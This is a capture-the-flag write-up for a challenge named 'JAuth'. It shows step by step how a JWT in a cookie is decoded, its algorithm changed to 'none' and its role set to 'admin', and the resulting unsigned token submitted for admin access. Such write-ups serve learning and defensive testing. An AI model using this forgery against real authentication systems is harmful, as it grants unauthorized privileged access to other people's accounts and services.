 # Challenge "JAuth" Writeup

## Vulnerability: JWT Forgery with None Algorithm

### Where: JWT-based authentication with vulnerable verification of algorithm

### Impact: This challenge demonstrates how exploiting a JWT vulnerability can allow privilege escalation by modifying user roles to gain unauthorized access as an admin.

**NOTE**: The challenge involves manipulating the JSON Web Token (JWT) used for authentication by changing the algorithm to `none`, bypassing the need for a valid signature.

## Steps to reproduce:

1. **Inspect the JWT in the Cookie**:
   We were given the following JWT in the authentication cookie:

   ```
   eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNzMwMjI1MTc2MzU1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChYMTE7IFVidW50dTsgTGludXggeDg2XzY0OyBydjoxMzEuMCkgR2Vja28vMjAxMDAxMDEgRmlyZWZveC8xMzEuMCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzMwMjI1MTc2fQ.vSTEYWC9bkpWDJyEoyjdoOlYkNvO7BO0I5aEnJvVqb8
   ```

   We decoded this JWT and found the following structure:

   **Header**:
   ```
   {
     "typ": "JWT",
     "alg": "HS256"
   }
   ```

   **Payload**:
   ```
   {
     "auth": 1730225176355,
     "agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
     "role": "user",
     "iat": 1730225176
   }
   ```

   The `role` field was set to `user`, indicating standard access.

2. **Modify the JWT to Bypass Signature Verification**:
   Since the header showed `alg` as `HS256`, we attempted to change this to `none`, allowing us to modify the payload without a valid signature.

   **Modified Header**:
   ```
   {
     "typ": "JWT",
     "alg": "none"
   }
   ```

   **Modified Payload**:
   ```
   {
     "auth": 1730225176355,
     "agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0",
     "role": "admin",
     "iat": 1730225176
   }
   ```

3. **Construct the Forged Token**:
   We base64-encoded the modified header and payload, creating a new JWT without a signature by omitting the last section:

   ```
   <base64_header>.<base64_payload>.
   ```

4. **Submit the Forged Token**:
   We replaced the original cookie with our modified token and reloaded the page. This granted us admin access, revealing the flag.

## Conclusion:

By changing the JWT algorithm to `none` and adjusting the `role` to `admin`, we successfully bypassed signature verification, elevated privileges, and retrieved the flag, completing the challenge.
